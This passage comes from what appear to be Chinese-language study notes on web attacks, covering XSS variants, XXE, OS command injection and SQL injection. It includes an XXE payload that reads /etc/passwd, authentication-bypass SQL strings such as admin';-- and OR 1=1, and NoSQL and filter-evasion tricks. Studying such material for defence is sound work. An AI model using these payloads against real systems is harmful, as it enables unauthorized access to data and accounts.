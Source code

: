             - 可能的使用场景：
                - 在http请求中嵌入代码，如在query string写script
                - 在表单的input写script
        - Stored XSS（persistent XSS attack）
            - 把有害代码通过某种方式保存到app里，每当app的这个功能被触发就会触发有害代码
            - e.g. 在comment中插入script，只要有用户加载了这条评论就会运行script
        - DOM-based XSS
            - 和reflected XSS很像，但不使用http来攻击，而是用响应式js的动态DOM来运行恶意代码
            - 因此在服务端没法识别到这种攻击，因为往服务端发的http请求中没有痕迹
    - 和Cross-site Request Forgery(CSRF)有些关系
        - 诱导用户点击链接来在其session中执行请求
- XML external entity injection (XXE) 
    - 在接受XML的应用服务中，利用XXE语言的特性来获得敏感信息
    - 首先要知道其可以被XXE
    - 然后再知道其具体是什么元素可以XXE，这些有风险元素其实很固定，换一个就不行了
    - eg: 有风险元素是`<data>`中的`<ID>`
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!-- 定义根元素，以定义实体供xxe注入 -->
        <!DOCTYPE aaa [ 
            <!ENTITY xxe SYSTEM "file:///etc/passwd">
        ]>
        
        <data>
            <ID>
                &xxe;
            </ID>
        </data>
            
        ```
- OS injection/Remote Code Execution (RCE)
    - 直接在服务端的os运行代码
    - 类型：
        - 参数传到linux中并运行某命令，用`;`或者`&&`来在那一条行中运行多条命令
- SQL injections
    - 基本上关键在于熟悉SQL语句的语法和找到一定能通过的语句
        - sql: OR 1=1
        - nosql: {$ne: null}
        - PostgreSQL: syntax是一样的，但是终端的交互记得加`;`
    - experiences
        - 留心开头和结尾的引号
            - e.g. `"SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + lastName + "'";`如果要注入，得处理尾部的`'`（例如注释掉或者用另一个'接上）
    - neutralizing a condition: 
        - `--`/`/**/`在SQL中代表注释符
            - `admin';--`
            - `SELECT * FROM users WHERE username = '[admin';--] AND password = 'password';`
        - `OR`
            - `10002'+OR+1=1;--`
            - `SELECT * FROM result WHERE student_id = '[10002'OR1=1;--] AND released = 1`
        - `except`(SQLite,Post)/`NOT IN`(MySQL)
            - `admin' except select * from users where username=''`
            - 变成`SELECT * FROM users WHERE username='admin' [except select * from users where username=''] AND password='yyy';`，
            - 意思就是把所有username='admin'的字段全部返回，除了username为空且password为yyy的字段。这也意味着我们可以用无用的except来逃避password的检查，因为password的检查被except处理了。
        - `glob`/`LIKE`/`SIMILAR TO`/`a' IS NOT 'b`
            - 本质上就是给条件对比的值填入TRUE或者等价表达式，这样SQL就会匹配所有字段
            - 类似LIKE，但会使用UNIX通配符，或者说基础的正则匹配
            - `' glob '*`
            - `SELECT * FROM users WHERE username='admin' AND password='[' glob '*]';`
    - 躲避过滤：
        - `||`, `CONCAT`, `+`
            - 字符串拼接，可以用来逃过简单的filter